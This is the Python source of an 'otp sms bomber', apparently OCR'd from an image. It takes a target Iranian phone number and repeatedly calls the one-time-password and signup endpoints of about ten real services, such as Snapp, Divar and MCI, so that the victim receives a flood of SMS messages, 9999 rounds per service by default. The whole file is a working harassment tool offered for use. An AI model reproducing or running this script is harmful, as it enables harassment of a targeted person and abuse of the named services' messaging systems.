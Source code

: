 from argparse import ArgumentParser
from urllib import request
from urllib3 import PoolManager
from json import dumps
from time import sleep
from re import search
import os
os.system( 'cls' )
green='\033[32m'
red='\033[31m'
def send(cellphone):
    http = PoolManager()
    # 0. snap otp [OK]
    http.request("post", "https://app.snapp.taxi/api/api-passenger-oauth/v2/otp",
        headers={'Content-Type': 'application/json'},
        body=dumps({"cellphone": f"+98{cellphone}"}).encode())
    
    # 1. snap driver [OK]
    http.request("post", "https://digitalsignup.snapp.ir/oauth/drivers/api/v1/otp",
        headers={'Content-Type': 'application/json'},
        body=dumps({"cellphone": f"0{cellphone}"}).encode())
    #2. tap33 otp [OK]
    http.request("post", "https://tap33.me/api/v2/user",
        headers={'Content-Type': 'application/json'},
        body=dumps({"credential": {"phoneNumber": f"0{cellphone}", "role": "PASSENGER"}}).encode())

    # 3. delino [OK]
    http.request("post", "https://www.delino.com/user/register",
        headers={'Content-Type': 'application/json'},
        body=dumps({"mobile": f'0{cellphone}'}).encode())

    # 4. divar [OK]
    http.request("post", "https://api.divar.ir/v5/auth/authenticate",
        headers={'Content-Type': 'application/json'},
        body=dumps({"phone": f'0{cellphone}'}).encode())

    # 4. mamifood [OK]
    http.request("post", "https://mamifood.org/Registration.aspx/SendValidationCode",
        headers={'Content-Type': 'application/json'},
        body=dumps({"Phone": f'0{cellphone}'}).encode())

    # 4. hamrahaval [OK]
    http.request("post", "https://api-ebcom.mci.ir/services/auth/v1.0/otp",
        headers={'Content-Type': 'application/json'},
        body=dumps({"msisdn": f'{cellphone}'}).encode())

    #shab.ir
    http.request("post", "https://www.shab.ir/api/fa/sandbox/v_1_4/auth/enter-mobile",
        headers={'Content-Type': 'application/json'},
        body=dumps({"mobile": f"0{cellphone}", "country_code": "+98"}).encode())

    # otaghak
    http.request("post", "https://core.otaghak.com/odata/Otaghak/Users/SendVerificationCode",
        headers={'Content-Type': 'application/json'},
        body=dumps({"userName": f"0{cellphone}"}).encode())
    http.request("post", "https://api.snapp.ir/api/v1/sms/link",
        headers={'Content-Type': 'application/json'},
        body=dumps({"phone": f"0{cellphone}"}).encode())
    
def spam(args):
    if (search(r'9\d{9}$', args.cellphone)):
        for time in range(args.times):
            print(f"\r{green} @Pooya_Killer | Sending sms {red}{time+1}/{args.times}", end='')
            try:
                send(args.cellphone)
            except KeyboardInterrupt:
                exit()
            sleep(2)
        print('')
    else:
        print("error: invalid cellphone format, format: 9\d{9} e.g. 90157xxxx")

def main():
    parser = ArgumentParser(prog="asmsb",
        description="otp sms bomber",
        epilog="By #Mmd_ToRm")
    parser.add_argument("cellphone", help="target cellphone: e.g. 90157xxxxx")
    parser.add_argument("--times", help="count of SMSs (per service!)", type=int, default=9999)
    spam(parser.parse_args())

if (__name__ == "__main__"):
    main()
